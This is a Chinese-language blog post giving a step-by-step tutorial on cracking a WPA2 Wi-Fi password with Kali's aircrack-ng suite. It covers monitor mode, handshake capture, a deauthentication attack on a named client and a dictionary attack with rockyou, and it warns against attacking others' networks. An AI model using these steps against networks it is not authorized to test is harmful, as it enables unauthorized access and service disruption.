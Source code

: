```yaml
---
layout:	post
title:	雕虫小技
date:	2018-06-06 13:00:12 +0800
categories: Kali
---
```


# 雕虫小技系列1

- 看到网上有关于使用**kali**破解WIFI的文章，去年CTF虽然曾使用过`aircrack-ng`对.cap包做过破解，但是还没有完整的进行过整个攻击过程，所以就想进行一次完整的实验
- 此文章中使用的是kali虚拟机和树莓派无线网卡
- **！随意破解他人WIFI犯法，请务必使用自己的WIFI进行实验！**

---

1. 使用的网卡型号是EP-N8508GS ，网店店主说除了树莓派以外的系统都需要装驱动，但是在我的WIn10机器和kali虚拟机上都可以直接使用

   ![]({{ site.url }}/imgs/trics/WIFI.jpg)

2. 输入`iwconfig`查看网卡名称

   ![]({{ site.url }}/Foto/trics/kali1.png)

3. 输入`airmon-ng start wlan0 `启动网卡Monitor模式

   ![]({{ site.url }}/Foto/trics/kali2.png)

4. 发现两个可能造成问题的进程，先把他们关掉

   ```
   ~# service network-manager stop
   ~# airmon-ng check kill
   ```

   ![]({{ site.url }}/Foto/trics/kali3.png)

5. 再次使用`iwconfig`确认已经进入monitor模式

   ![]({{ site.url }}/Foto/trics/kali4.png)

6. 输入`airodump-ng wlan0mon`进行抓包

   ![]({{ site.url }}/Foto/trics/kali5.png)

   

7. 选择对宿舍WIFI: BSSID=8C:A6:DF:D2:D8:40 CH=1 加密方式为：WPA2的宿舍WIFI进行数据抓包，输入`airodump-ng wlan0mon --bssid 8C:A6:DF:D2:D8:40 -c 1 -w wpa2`，-w 表示数据包存储位置，只抓取该WPA的数据包

   ![]({{ site.url }}/Foto/trics/kali6.png)

8. 之后需要等待用户连接或是重新连接WIFI，但是运气不好会等很久。在此使用**aireplay-ng**，强制断开用户的WiFi连接，输入`aireplay-ng -0 2 -a 8C:A6:DF:D2:D8:40 -c 0C:51:01:04:44:84 wlan0mon`，参数解释：`-0`发起DE authentication攻击，`-a`指定路由器BSSID，`-c`指定强制断开的设备。

   ![]({{ site.url }}/Foto/trics/kali7.png)

9. 成功获得四步握手包，执行`airmon-ng stop wlan0mon`结束无线网卡监听

    ![]({{ site.url }}/Foto/trics/kali8.png)

10. 查看抓到的握手包

   ![]({{ site.url }}/Foto/trics/kali9.png)

11. 使用kali默认的字典进行破解，字典目录为：/usr/share/wordlists/rockyou.txt.zip ，执行`gunzip rockyou.txt.zip`解压

12. 执行`aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa2-02.cap`破解，此处有wpa2-01和wpa2-02两个文件，只需要关注最后一个文件

    ![]({{ site.url }}/Foto/trics/kali10.png)

13. 成功破解，也是因为宿舍WIFI是弱密码，由此可见WIFI密码设置不应该太随意